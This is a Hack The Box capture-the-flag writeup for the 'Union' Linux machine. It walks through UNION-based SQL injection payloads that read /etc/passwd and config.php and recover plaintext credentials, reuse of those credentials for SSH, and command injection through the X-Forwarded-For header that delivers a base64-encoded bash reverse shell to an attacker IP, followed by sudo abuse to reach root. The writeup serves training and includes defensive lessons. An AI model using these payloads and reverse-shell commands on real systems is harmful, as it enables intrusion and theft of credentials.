




# Union — Hack The Box Writeup

| Property       | Value                                                              |
|----------------|--------------------------------------------------------------------|
| **Machine**    | Union                                                              |
| **OS**         | Linux (Ubuntu 20.04 LTS)                                           |
| **IP**         | 10.129.96.75                                                       |
| **Difficulty** | Medium                                                             |
| **Author**     | PeterTheFlower/Pitiliti1                                                          |
| **Tags**       | Web, SQL Injection, Union-Based, WAF Bypass, LFI via MySQL, Command Injection, HTTP Header Injection, Sudo Abuse |

---

## Summary

Union is a Medium-difficulty Linux machine that emphasizes web exploitation and insecure application integration. Initial access begins with discovering a tournament registration portal running PHP and MySQL, which implements a rudimentary blacklist filter against SQLMap. By exploiting a Union-based SQL Injection, we enumerate database contents, retrieve a qualifying challenge flag, and leverage excessive MySQL privileges (`FILE` privilege granted to user `uhc`) to read sensitive local system files via `LOAD_FILE()`. Reading `config.php` reveals plaintext database credentials that are reused by the system user `uhc` for SSH access. For privilege escalation, local code auditing of `firewall.php` reveals an authenticated OS command injection flaw within the `X-Forwarded-For` HTTP header used in an unescaped `system()` call running `iptables`. Triggering this command injection yields a reverse shell as `www-data`, who possesses unrestricted `sudo` privileges (`NOPASSWD: ALL`), allowing an instant transition to `root`.

---

## 1. Reconnaissance

### 1.1 Port Scan

An initial full TCP port scan was executed using Nmap:

```bash
nmap -p- -Pn -v -T4 -oN nmap_tcp.txt 10.129.96.75
```

| Port   | State | Service | Version / Notes |
|:-------|:------|:--------|:----------------|
| 80/tcp | open  | HTTP    | Nginx / Apache running PHP 7.4 (Ubuntu) |

*(Note: Port 22 / SSH is filtered dynamically by firewall rules and only opened upon completing the web qualification challenge).*

> **Theory — Stealth Port Filtering & Dynamic Knocking:**  
> Discovering only port 80 open on an externally accessible machine strongly implies either a specialized web challenge or a dynamically managed host firewall (such as `iptables` or `nftables`). In CTF and hardened enterprise environments, non-essential administrative ports (like SSH) are frequently kept closed to untrusted IP addresses until an application-layer trigger explicitly whitelists the client IP.

### 1.2 Web Application Enumeration (Port 80)

Navigating to `http://10.129.96.75` displays the *UHC - November Qualifiers* registration form, allowing users to input a player name to verify their tournament eligibility:



Submitting a standard player name (e.g., `test`) returns:
```text
Congratulations test you may compete in this tournament!
Complete the challenge here
```

Submitting an existing player name (such as `ippsec` - the username of the creator of the box) returns:
```text
Sorry, ippsec you are not eligible due to already qualifying.
```

---

## 2. Initial Access — SQL Injection to Local File Disclosure

### 2.1 Vulnerability Analysis — Union-Based SQLi

Testing the input field for SQL injection reveals that user input is reflected directly inside the response message when a valid player match is found:



Inputting `player' union select @@version-- -` returns:
```text
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
```

This confirms:
1. The backend DBMS is **MySQL 8.0.27 on Ubuntu 20.04**.
2. The query structure only selects a single column (`SELECT player FROM players WHERE player = '...'`).
3. Output reflection occurs directly in the page body, allowing full in-band UNION exploitation.

> **Theory — In-Band UNION-Based SQL Injection:**  
> The `UNION` operator combines the result sets of two or more `SELECT` queries into a single output. For a successful `UNION` injection, two structural conditions must be met:
> 1. Both queries must request the exact same number of columns.
> 2. The data types in the corresponding columns must be compatible.  
> Because the application displays the column value within the text string `Sorry, [VALUE] you are not eligible...`, any string data injected into column 1 is directly rendered on screen.

### 2.2 WAF / Filter Evasion

Reviewing application behavior reveals a custom server-side filter intended to hinder automated scanners like SQLMap:
```sql
player' UNION SELECT GROUP_CONCAT(LOAD_FILE('/var/www/html/index.php') SEPARATOR ',')-- -
```
Line in the file:

```php
// SQLMap Killer
$badwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
```

Standard SQLMap payloads relying on time-based blind conditions (`sleep`), inline comment obfuscation (`/**/`), or hex encodings (`0x...`) are killed immediately. However, standard manual `UNION SELECT` syntax combined with simple SQL comments (`-- -`) completely bypasses this naive regex list.

### 2.3 Database Enumeration

Extracting available database schemas:
```sql
player' UNION SELECT GROUP_CONCAT(schema_name SEPARATOR ',') FROM information_schema.schemata -- -
```
**Output:** `mysql,information_schema,performance_schema,sys,november`

Extracting tables from the `november` schema:
```sql
player' UNION SELECT GROUP_CONCAT(table_name SEPARATOR ',') FROM information_schema.tables WHERE table_schema='november'-- -
```
**Output:** `flag,players`

Extracting the flag table contents:
```sql
player' UNION SELECT GROUP_CONCAT(one SEPARATOR ',') FROM flag-- -
```
**Output:** `UHC{F1rst_5tep_2_Qualify}`

Navigating to `/challenge.php` and entering this qualification key verifies eligibility and unlocks firewall provisioning:





and port 22 opened.
### 2.4 Assessing MySQL Privileges & Arbitrary File Read

Before looking for web shells, we inspect the database user and granted privileges:

```sql
player' UNION SELECT GROUP_CONCAT(privilege_type SEPARATOR ',') FROM information_schema.user_privileges WHERE grantee LIKE '%uhc%'-- -
```
**Output:**
```text
SELECT,INSERT,UPDATE,DELETE,CREATE,DROP,RELOAD,SHUTDOWN,PROCESS,FILE,REFERENCES,INDEX,ALTER,SHOW DATABASES,SUPER,...
```

> **Theory — The MySQL `FILE` Privilege Risk:**  
> In MySQL/MariaDB, the administrative `FILE` privilege grants the database process permission to read (`LOAD_FILE()`) and write (`INTO OUTFILE / DUMPFILE`) arbitrary files on the underlying operating system file system, subject only to the OS permissions of the running `mysql` daemon user and the `secure_file_priv` variable. When granted to an application-tier account, any SQL injection instantly escalates to an arbitrary Local File Inclusion (LFI) vulnerability.

### 2.5 Reading Configuration Files

We verify file read capabilities against `/etc/passwd`:
```sql
player' UNION SELECT GROUP_CONCAT(LOAD_FILE('/etc/passwd') SEPARATOR ',')-- -
```
The file reveals two key users:
- `www-data` with home `/var/www`
- System user `uhc` (`uid=1001`)

Targeting the webroot at `/var/www/html/config.php`:
```sql
player' UNION SELECT GROUP_CONCAT(LOAD_FILE('/var/www/html/config.php') SEPARATOR ',')-- -
```

**Recovered PHP Source (`config.php`):**
```php
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

### 2.6 Credential Reuse — SSH Access

Since database password reuse across operating system user accounts is a widespread administrative anti-pattern, we authenticate over SSH with credentials `uhc:uhc-11qual-global-pw`:

```bash
ssh uhc@10.129.96.75
```

```bash
uhc@union:~$ id
uid=1001(uhc) gid=1001(uhc) groups=1001(uhc)

uhc@union:~$ cat user.txt
ca067477dd3b5dfb280cd602ff6e9c57
```

**🚩 User flag obtained: `ca067477dd3b5dfb280cd602ff6e9c57`**

---

## 3. Privilege Escalation — HTTP Header Injection to Root

### 3.1 Local Code Audit (`/var/www/html/firewall.php`)

Inspecting files in `/var/www/html` reveals the script responsible for dynamic firewall punching:

```bash
uhc@union:/var/www/html$ cat firewall.php
```

```php
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}
...
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
...
```

### 3.2 Vulnerability Analysis — Command Injection via Untrusted Header

The code inspects `$_SERVER['HTTP_X_FORWARDED_FOR']`. If present, it assigns its raw, unsanitized value directly to `$ip` and passes it into `system()`:

```php
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
```

> **Theory — HTTP Header Injection into System Shells:**  
> HTTP request headers such as `User-Agent`, `Referer`, and `X-Forwarded-For` are entirely attacker-controlled. Developers often mistakenly treat client IP headers as trusted network metadata rather than unvalidated user input. When passed into shell execution primitives (`system`, `exec`, `passthru`, `popen`) without input validation or parameter binding, metacharacters such as `;`, `&`, `|`, or backticks allow arbitrary command chaining.

### 3.3 Exploitation — Lateral Movement to `www-data`

Testing command execution locally using `curl` while passing an active session cookie:

```bash
curl -b 'PHPSESSID=i8u7aem061e5uor7nghte75nq8' -H 'X-Forwarded-For: 127.0.0.1; id #'   http://127.0.0.1:80/firewall.php
```

**Response output:**
```html
<div class="container p-5">
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<h1 class="text-white">Welcome Back!</h1>
```

Executing a Base64-encoded reverse shell payload to avoid any quoting or string issues:

```bash
# Payload: bash -i >& /dev/tcp/10.10.15.197/4444 0>&1
curl -s -b 'PHPSESSID=i8u7aem061e5uor7nghte75nq8' -H 'X-Forwarded-For: 127.0.0.1; echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xOTcvNDQ0NCAwPiYxCg==" | base64 -d | bash #' http://127.0.0.1:80/firewall.php
```

We catch the shell on our Netcat listener:
```bash
$ nc -lvnp 4444
connect to [10.10.15.197] from (UNKNOWN) [10.129.96.75] 47218
www-data@union:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 3.4 Sudo Privileges & Root Compromise

Checking `sudo` privileges for the web service account:

```bash
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

`www-data` is configured with universal, passwordless `sudo` rights (`(ALL : ALL) NOPASSWD: ALL`), resulting in immediate privilege escalation:

```bash
www-data@union:~/html$ sudo su
root@union:~# id
uid=0(root) gid=0(root) groups=0(root)

root@union:~# cat /root/root.txt
6d11397f5afd1c42c10302915f51e5ad
```

**🚩 Root flag obtained: `6d11397f5afd1c42c10302915f51e5ad`**

---

## 4. Attack Path Summary

```
                      ┌───────────────────────────┐
                      │    Nmap Scan (Port 80)    │
                      └─────────────┬─────────────┘
                                    │
                      ┌─────────────▼─────────────┐
                      │ In-band Union SQLi on web │
                      │ Bypasses regex WAF filter │
                      └─────────────┬─────────────┘
                                    │
                      ┌─────────────▼─────────────┐
                      │ MySQL 'FILE' priv abuse   │
                      │ LOAD_FILE('/var/...config')│
                      └─────────────┬─────────────┘
                                    │
                      ┌─────────────▼─────────────┐
                      │ Password reuse: uhc creds │
                      │ SSH Login ──► 🚩 user.txt │
                      └─────────────┬─────────────┘
                                    │
                      ┌─────────────▼─────────────┐
                      │ Code audit: firewall.php  │
                      │ Untrusted X-Forwarded-For │
                      └─────────────┬─────────────┘
                                    │
                      ┌─────────────▼─────────────┐
                      │ Command Injection RCE     │
                      │ Reverse shell as www-data │
                      └─────────────┬─────────────┘
                                    │
                      ┌─────────────▼─────────────┐
                      │ sudo -l: NOPASSWD: ALL    │
                      │ sudo su ──► 🚩 root.txt   │
                      └───────────────────────────┘
```

---

## 5. Tools Used

| Tool | Purpose |
|:-----|:--------|
| **Nmap** | Initial port and service detection |
| **Burp Suite / cURL** | HTTP request crafting, header injection, and SQLi exploitation |
| **MySQL Client** | Syntax reference and query structure validation |
| **Netcat** | Catching interactive reverse shells |
| **Bash & Base64** | Payload encoding to evade quoting issues in shell injection |
| **SSH Client** | Remote interactive user shell authentication |

---

## 6. Lessons Learned

1. **HTTP headers are unverified user input** — headers like `X-Forwarded-For` are regularly manipulated in attacks. Never pass header values directly into operating system commands without strict canonical IP validation.
2. **Database privileges must be locked down** — a standard web SQL injection should remain confined to table reading; the `FILE` privilege escalated a database vulnerability into full system file disclosure.
3. **Defense-in-depth matters for sudoers** — web services (`www-data`) are the most vulnerable entry point on internet-facing systems; granting them unrestricted sudo rights guarantees that any web flaw results in a full system compromise.
4. **Keyword blacklists fail against SQLi** — the custom "SQLMap Killer" filter checked for words like `sleep` and `or`, but failed to account for basic `UNION SELECT` operations with standard comment sequences.

---

## 7. References

- [PortSwigger — SQL Injection (UNION Attacks)](https://portswigger.net/web-security/sql-injection/union-attacks)
- [OWASP — Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [MySQL 8.0 Reference Manual — Privileges Provided by MySQL](https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html)
- [MITRE ATT&CK — T1190 (Exploit Public-Facing Application)](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK — T1059.004 (Unix Shell Command Interpreter)](https://attack.mitre.org/techniques/T1059/004/)
- [MITRE ATT&CK — T1548.003 (Sudo and Sudo Caching)](https://attack.mitre.org/techniques/T1548/003/)
